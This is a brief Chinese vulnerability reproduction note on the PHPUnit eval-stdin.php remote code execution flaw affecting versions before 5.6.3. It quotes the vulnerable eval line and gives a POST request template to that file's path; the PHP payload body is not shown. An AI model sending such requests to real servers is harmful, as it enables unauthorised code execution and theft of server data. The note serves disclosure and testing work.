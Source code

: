 # PHPUnit eval-stdin.php 远程命令执行漏洞

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

PHPUnit < 5.6.3

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![php1.png](resource/PHPUnit/php-1.png)